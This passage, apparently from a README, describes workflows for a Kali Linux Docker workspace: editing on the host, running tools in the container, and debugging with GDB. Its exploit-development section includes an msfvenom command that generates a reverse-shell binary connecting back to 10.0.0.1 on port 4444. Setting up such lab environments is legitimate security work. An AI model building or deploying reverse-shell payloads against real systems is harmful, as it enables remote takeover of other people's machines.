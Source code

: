 ## 💻 Development Workflows

### 1. Security Tool Development

```mermaid
graph LR
    A[Host Machine] --> B[VS Code]
    B --> C[Edit Files]
    C --> D[./workspace/]
    D --> E[Container]
    E --> F[/home/kali/workspace]
    F --> G[Test/Run]
    G --> H[Debug]
    
    style A fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px
    style E fill:#e3f2fd,stroke:#1565c0,stroke-width:2px
```

**Setup:**
```bash
# Create project on host
mkdir -p workspace/my-security-tool
cd workspace/my-security-tool

# Edit on host
code .  # Opens in VS Code

# Test in container
docker exec -it kali-workspace /bin/bash
cd /home/kali/workspace/my-security-tool
python3 my_tool.py
```

### 2. Exploit Development

```bash
# Create exploit workspace
docker exec -it kali-workspace /bin/bash
mkdir -p ~/workspace/exploits
cd ~/workspace/exploits

# Use built-in tools
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf

# Test with GDB
gdb ./vulnerable_app
(gdb) set disassembly-flavor intel
(gdb) disas main
```

## 🔗 Network Operations
